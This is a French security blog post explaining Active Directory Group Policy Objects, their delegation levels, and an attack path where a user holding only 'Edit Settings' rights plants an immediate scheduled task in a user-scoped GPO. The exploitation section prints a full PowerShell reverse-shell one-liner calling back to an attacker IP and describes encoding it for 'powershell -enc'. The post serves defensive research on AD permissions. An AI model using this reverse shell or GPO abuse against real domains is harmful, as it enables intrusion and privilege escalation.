 ```yaml
---
title: "GPO - Chemin d'attaque"
date: 2019-04-12 11:28:42
author: "Pixis"
layout: post
permalink: /gpo-abuse-with-edit-settings/
disqus_identifier: 0000-0000-0000-00ae
cover: assets/uploads/2019/04/gpo_banner.png
description: "Cet article présente ce qu'est une GPO puis décrit un chemin d'attaque possible lorsqu'un attaquant a le droit de modifier les paramètres d'une GPO qui s'applique à des utilisateurs."
tags:
  - "Active Directory"
  - Windows
---
```


Cet article présente ce qu'est une GPO (Group Policy Object) puis décrit un chemin d'attaque possible lorsqu'un attaquant a le droit de modifier les paramètres d'une GPO qui s'applique à des utilisateurs.

<!--more-->

## Group Policy Object

### Définition

Parmi les différents rôles d'un Active Directory se trouve le rôle de gestion du parc. Active Directory permet de gérer l'ensemble des machines et utilisateurs du système d'information, et pour cela les "stratégies de groupe" (Group Policy Objects - GPO) sont un outil indispensable.

Concrètement, les GPO sont un ensemble de règles/actions qui s'appliquent à un ensemble bien défini d'objets. Une GPO permet de faire beaucoup, beaucoup de choses. 

[![Example GPO](/assets/uploads/2019/04/example_gpo.png)](/assets/uploads/2019/04/example_gpo.png)

Comme on le voit sur cette capture d'écran, il est possible de créer/modifier des scripts au démarrage et à l'arrêt d'une machine, de changer les paramètres du pare-feu, de créer des tâches planifiées, ou même d'ajouter des utilisateurs au groupe local d'administration. Ce ne sont que des exemples parmi tant d'autres pour montrer à quel point les fonctionnalités imposables via GPO sont diverses et puissantes.

### Composition

Une GPO est composée de deux éléments :

* Un conteneur (Group Policy Container - GPC), qui est l'objet enregistré dans l'Active Directory, sous le groupe `adsec.local > system > policies`. Chaque GPO est identifiée par un identifiant unique dans le domaine.

[![GPC](/assets/uploads/2019/04/gpc.png)](/assets/uploads/2019/04/gpc.png)

C'est ici que sont gérés finement les droits de création/modification des GPO, comme tout objet de l'Active Directory. 


* Les fichiers qui contiennent les informations à appliquer sur les machines ou les utilisateurs. Ces fichiers sont présents sur chaque contrôleur de domaine, dans le partage réseau `\\dc-01.adsec.local\SYSVOL\adsec.local\Policies\`, et sont organisés dans des dossiers : Un dossier par GPO, le nom du dossier étant l'identifiant unique correspondant au conteneur GPC.

[![GPO files](/assets/uploads/2019/04/gpo_files.png)](/assets/uploads/2019/04/gpo_files.png)

C'est grâce à l'exposition de ces fichiers aux comptes de domaine que ces derniers peuvent mettre à jour leurs GPO.

## Contexte de recherche

Dans ma croisade en plein Active Directory, j'utilise de manière très intense l'outil [Bloodhound](https://github.com/BloodHoundAD/BloodHound) développé par [@wald0](https://twitter.com/_wald0), [@Harmj0y](https://twitter.com/harmj0y) et [@CptJesus](https://twitter.com/cptjesus), que je ne remercierai jamais assez pour leur travail et leur disponibilité sur leur slack [BloodHoundHQ](https://bloodhoundgang.herokuapp.com/). 

Après avoir regardé la [prise de parole](https://www.youtube.com/watch?v=0r8FzbOg2YU&list=PL1eoQr97VfJnvOWo_Jxk2qUrFyB-BJh4Y&index=4&t=0s) de [@wald0](https://twitter.com/_wald0) et [@CptJesus](https://twitter.com/cptjesus) à la conférence [WeAreTroopers](https://www.troopers.de/), j'ai commencé à me pencher sur les chemins d'attaque impliquant les GPO. Bloodhound aide énormément sur ce sujet, et propose notamment un chemin d'attaque lorsqu'un compte du domaine a les droits `WriteDacl` sur une GPO. 

[![BloodHound Path](/assets/uploads/2019/04/bh_path.png)](/assets/uploads/2019/04/bh_path.png)

Sur ce schéma, on voit un utilisateur avec un crâne, correspondant à un compte compromis. Ce compte fait partie d'un groupe qui possède les droits `WriteDacl` sur une GPO. Cette GPO s'applique enfin à une unité d'organisation (OU) contenant notamment l'utilisateur en bas à droite, cible de l'attaque.

Ce droit `WriteDacl` permet aux membres du groupe de modifier les ACL (Access Control List) de la GPO concernée, c'est à dire les droits d'accès à la GPO, notamment la modification du propriétaire de l'objet. Ainsi, un utilisateur du groupe possédant ce droit peut s'auto-proclamer propriétaire, pour ensuite la modifier arbitrairement.

Par défaut, lorsqu'une GPO est créée, peu de personnes ont le droit de la modifier. Les utilisateurs peuvent la lire (obligatoire pour pouvoir l'appliquer !), mais seuls les groupes "Domain Admins" et "Enterprise Admins" ont les droits absolus dessus, c'est à dire qu'ils peuvent la modifier (Edit Settings), la supprimer (Delete), et modifier les droits d'accès (Modify Security).

[![ACL GPO](/assets/uploads/2019/04/ACL_GPO.png)](/assets/uploads/2019/04/ACL_GPO.png)


Si un administrateur souhaite déléguer ces permissions à un utilisateur sans pour autant l'ajouter à l'un des deux groupes, c'est tout à fait possible via cet onglet de délégation. C'est un endroit simplifiant la gestion des droits sur une GPO. En effet, il est tout à fait possible de modifier les droits directement au niveau de la GPC, mais c'est beaucoup plus complexe.

[![GPC Rights](/assets/uploads/2019/04/GPC_rights.png)](/assets/uploads/2019/04/GPC_rights.png)

On voit que la barre de défilement permet de lister un grand, très grand nombre de paramètres d'accès.

Il est donc plus aisé de passer par l'interface de gestion des GPO pour ajouter un utilisateur afin de lui déléguer des droits :

[![Add User ACL Gpo](/assets/uploads/2019/04/add_user_acl_gpo.png)](/assets/uploads/2019/04/add_user_acl_gpo.png)

Puis on indique les droits qu'on lui concède :

[![Edit settings user](/assets/uploads/2019/04/edit_settings_add_user.png)](/assets/uploads/2019/04/edit_settings_add_user.png)

Trois choix sont proposés, choix qui sont une préselection facilitant la vie des administrateurs, en modifiant des droits bien précis au niveau de la GPC.

[![Edit settings added for user](/assets/uploads/2019/04/settings_added.png)](/assets/uploads/2019/04/settings_added.png)

Maintenant cet utilisateur fait partie des personnes/groupes à avoir les droits ultimes sur cette GPO. C'est ce contrôle total que l'on voit apparaitre dans BloodHound lorsqu'une entité a un lien "WriteDacl" vers une GPO. En effet, cette présélection ajoute les paramètres de sécurité "Modify Owner" et "Modify Permissions".

[![Write DACL](/assets/uploads/2019/04/writedacl.png)](/assets/uploads/2019/04/writedacl.png)



## Droit "Edit Settings"

On a vu au-dessus qu'il y avait trois niveaux de délégation :

* Read
* Edit Settings
* Edit Settings, delete, modify security

Le troisième niveau est pris en charge dans la collecte BloodHound. Cependant, que se passe-t-il si un utilisateur ne possède que le droit de modifier la GPO, mais pas les ACL associées ? C'est la question que je me suis posé. 

Pour y répondre, j'ai créé une GPO d'exemple, appelée "TestGPO Abuse", s'appliquant à l'ensemble des utilisateurs appartenant à l'OU "Domain Users". Comme dans l'exemple précédant, j'ai ajouté l'utilisateur "jdoe" dans la délégation de la gestion de cette GPO, en indiquant qu'il ne pouvait que modifier les paramètres de cette GPO, mais pas les ACL associées ("Edit Settings").

[![Edit Settings for jdoe](/assets/uploads/2019/04/edit_settings_jdoe.png)](/assets/uploads/2019/04/edit_settings_jdoe.png)

## GPO appliquée à des utilisateurs

Dans ma recherche, je souhaitais également savoir ce que je pouvais faire lorsque la GPO ne s'appliquait qu'à des utilisateurs, pas à des machines. C'est pourquoi "TestGPO Abuse" ne s'applique qu'à l'OU "Domain Users". En effet, tous les paramètres contrôlables dans la partie "Computer Configuration" de la GPO ne s'appliqueront pas si cette GPO est destinée à des utilisateurs. Seuls ceux dans "User Configuration" le seront.

[![No Computer GPO](/assets/uploads/2019/04/no_computer_gpo.png)](/assets/uploads/2019/04/no_computer_gpo.png)

Mais concrètement, qu'est-ce qui est disponible dans les paramètres de GPO appliqués à un utilisateur ? Et bien beaucoup moins de choses, mais des paramètres intéressants tout de même !

[![User Example GPO](/assets/uploads/2019/04/user_gpo_example.png)](/assets/uploads/2019/04/user_gpo_example.png)

On voit qu'on peut installer des paquets, gérer encore une fois les scripts au login/logout, éditer des groupes et utilisateurs locaux et les tâches planifiées.

## Exploitation via une tâche planifiée immédiate

Nous allons nous intéresser plus particulièrement aux tâches planifiées. Il est possible de créer des tâches planifiées qui s'exécuteront immédiatement, lorsque la GPO sera appliquée à l'utilisateur.

Ainsi, si nous nous connectons en tant que l'utilisateur `jdoe` sur une machine, nous pouvons créer cette tâche.

[![Abuse Task](/assets/uploads/2019/04/abusetask.png)](/assets/uploads/2019/04/abusetask.png)

Elle est créée en tant que l'utilisateur `jdoe`, et lorsqu'elle sera appliquée, ce sera en tant que l'utilisateur à qui elle s'applique.

Dans l'onglet "Actions", nous indiquons ce qu'il se passera à l'exécution. Ici, nous utilisons un reverse-shell en Powershell pour que lors de son exécution, l'utilisateur cible se connecte à l'attaquant en proposant un shell.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.0.20.12",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Ce code est transormé en base 64 pour le passer à la commande `powershell -enc <base 64 de la commande>`.

[![Abuse Task Powershell](/assets/uploads/2019/04/abusetask_pwsh.png)](/assets/uploads/2019/04/abusetask_pwsh.png)

Une fois cette tâche créée, lors de la mise à jour des GPO sur un client, par exempe sur le compte `support-account`, elle sera exécutée sur la machine, et l'attaquant récupère un shell.

[![Reverse Shell Worked](/assets/uploads/2019/04/re_shell_worked.png)](/assets/uploads/2019/04/re_shell_worked.png)

## Conclusion

L'idée de cet article est de montrer que les GPO sont un pilier dans l'organisation d'un Active Directory, et doivent être maitrisées tout autant que beaucoup d'autres objets. Une permission mal placée peut permettre à un attaquant d'en abuser et d'élever ses privilèges dans le système d'information.

Ici, l'exemple de la tâche planifiée a été utilisé sur une GPO appliquée à des utilisateurs, cependant il existe un grand nombre de possibilités ouvertes par les GPO qui peuvent être utilisées pour exécuter du code. 